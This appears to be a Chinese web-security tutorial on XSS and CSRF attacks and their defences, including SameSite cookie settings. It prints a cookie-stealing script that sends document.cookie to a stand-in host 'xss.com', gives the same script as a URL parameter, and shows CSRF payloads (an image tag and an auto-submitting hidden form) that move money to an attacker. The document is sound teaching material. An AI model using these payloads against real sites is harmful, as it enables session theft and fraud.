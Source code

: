 ## 安全问题

- 跨站脚本 (Cross-Site Scripting, XSS)
- 跨站请求伪造（Cross-Site Request Forgeries，CSRF）
- iframe的滥用: iframe中的内容是由第三方来提供的
- 恶意第三方库，JavaScript应用库event-stream

## XSS

### 反射型XSS

反射型XSS也叫非持久型XSS，是指攻击者将恶意代码拼写在URL中提交给服务端，服务端返回的内容，也带上了这段XSS代码，最后导致浏览器执行了这段恶意代码

比如服务端采用`express.j`并使用ejs进行服务端渲染，服务端接收到地址栏search参数时，会将其传入到模板的search变量中，并生成HTML

```javascript
app.get('/reflection', function(req, res){ 
  res.render('reflection', { search: req.query.search }); 
})
```

比如有攻击者想获取用户cookie，编写了下面一段JavaScript代码。通过动态创建一个script标签，然后把当前cookie发送给目标地址 xss.com

```html
<script> 
	s=document.createElement('script'); 
	s.src=`xss.com?cookie=${document.cookie}`; 
	document.head.append(s) 
</script>
```

那么就可以将代码进行 URI 转码之后，赋值给 URL 参数 search，把这个参数添加到对应的网址并发送给对应的用户即可获取它的 cookie

```javascript
?search=<script>var s=document.createElement('script');s.src=`xss.com?cookie=${document.cookie}`;document.head.append(s);</script>
```

### 存储型XSS

存储型的恶意代码存储在数据库等地方，每次访问页面都会触发 XSS。比如一些网站允许用户设置一段个性签名，并且显示在个人主页，

攻击者就可以在个性签名中输入恶意代码并提交到服务端，如果这段代码没有进行任何处理直接存储到数据库，

那么其他用户访问这个个人主页的时候都会执行这段恶意代码。

### Dom型XSS

DOM 型 XSS 可以看作一种特殊的反射型 XSS，它也是一种非持久型 XSS，不过相对于反射型 XSS 而言它不需要经过服务端。

比如在上面的例子中，如果把解析 URL 参数search的逻辑放在前端页面进行，那么攻击类型就属于DOM型

```
<script> 
var search = location.search.replace('?search=', '') 
document.write("你搜索了 :" + decodeURI(search)) 
</script>
```

### 防御手段

- **参数校验**。对于 HTTP 请求的 URL 参数和请求体 payload 的数据进行校验，比如我们接收的数据是用户年龄，
那么在后端，需要判断一下数据是否是 Number，对于不符合校验规则的数据及时抛出错误。
- **字符转码**。对于一些特殊符号，比如“<”“>”“&”“"”“'”“/”，我们需要对其进行转义，后端接收这些代码时候的转义存储，
前端在显示的时候，再把它们转成原来的字符串进行显示。
对于用户输入的字符串内容，不要使用 eval、new Function 等动态执行字符串的方法，
也不要将这些字符串通过 innerHTML、outerHTML、document.write() 方式直接写到 HTML 中。对于非客户端 cookie，
- **使用HttpOnly属性**，比如保存用户凭证的session，将其设置为http only，避免前端访问cookie
- **充分利用 CSP**，禁止向第三方域提交数据，禁止执行内联脚本和未授权的脚本

## CSRF

### 攻击原理

比如，用户A在银行有一笔存款，通过对银行的网站发送请求：http://bank.com/withdraw?amount=100&to=B。
可以让A把100的存款转到B的账号下。通常情况下，该请求发送到网站后，服务器会先验证该请求是否来自一个合法的 session，验证成功后代码用户 A 已经成功登录。
攻击者C就可以通过替换URL中的参数把钱转入自己的账户中，但这个请求必须由A发出。所以他先自己做一个网站，在网站中放入如下代码：

```
<img src="http://bank.com/withdraw?amount=100&to=C" />
```

然后通过广告等方式诱使 A 来访问他的网站，当 A 访问该网站时，浏览器就会附带上 cookie 发出的转账请求。
大多数情况下，该请求可能会失败，因为他要求 A 的认证信息。但是，如果 A 当时恰巧刚访问这个网站不久，
他的浏览器与网站之间的 session 尚未过期，浏览器的 cookie 中含有 A 的认证信息。那么此时这个请求就会成功，
钱将从用户 A 的账号转移到攻击者 C 的账号，而 A 对此毫不知情。
即使日后 A 发现账户钱少了，去银行查询转账记录，也只能发现确实有一个来自他本人的合法请求转移了资金，找不到被攻击的痕迹。
当然真实场景下不会通过 GET 请求去提交操作，而是采用 POST 请求。但即时如此，攻击者也可以在页面中嵌入隐藏表单并通过脚本来触发操作。
比如像下面的代码，创建了两个表单字段，分别为 amount 和 to，然后自动执行 JavaScript 脚本提交表单。

```
<form action="http://bank.com/withdraw" method="POST""> 
    <input type="hidden" name="amount" value="100" /> 
    <input type="hidden" name="to" value="C" /> 
</form> 
<script> document.forms[0].submit(); </script>
```

### 防御手段

- 验证码被认为是对抗CSRF攻击最简洁而有效的防御方法
- **验证来源**,Origin 属性只包含了域名信息，referer包含具体的URL路径
- 添加token验证，要抵御CSRF，关键在于在请求中放入攻击者所不能伪造的信息，并且该信息不存在于Cookie之中
- `Samesite Cookie`属性

### Samesite Cookie

Cookie的SameStie属性用来限制第三方Cookie，从而减少安全风险（防止CSRF攻击）和用户追踪

**Strict**最为严格，完全禁止第三方 Cookie，跨站点时，任何情况下都不会发送 Cookie。换言之，只有当前网页的 URL 与请求目标一致，
才会带上 Cookie。这个规则过于严格，可能造成非常不好的用户体验。比如，当前网页有一个 GitHub 链接，
用户点击跳转就不会带有 GitHub 的 Cookie，跳转过去总是未登陆状态。
`Set-Cookie: CookieName=CookieValue; SameSite=Strict;`

**None** `Set-Cookie: widget_session=abc123; SameSite=None; Secure;`
Chrome 计划将Lax变为默认设置。这时，网站可以选择显式关闭SameSite属性，将其设为None。
不过，前提是必须同时设置Secure属性（Cookie 只能通过 HTTPS 协议发送），否则无效。

**Lax** 规则稍稍放宽，大多数情况也是不发送第三方 Cookie，但是导航到目标网址的 Get 请求除外。

|请求类型|示例	                              |正常情况	  |Lax        |
|:--     |:--                                 |:--        |:--        |
|链接    |`<a href="..."></a>`                |发送 Cookie|发送 Cookie|
|预加载  |`<link rel="prerender" href="..."/>`|发送 Cookie|发送 Cookie|
|GET表单 |`<form method="GET" action="...">`  |发送 Cookie|发送 Cookie| 
|POST表单|`<form method="POST" action="...">` |发送 Cookie|不发送     |
|iframe  |`<iframe src="..."></iframe>`       |发送 Cookie|不发送     |
|AJAX    |`$.get("...")`                      |发送 Cookie|不发送     |
|Image   |`<img src="...">`                   |发送 Cookie|不发送     |





















































 

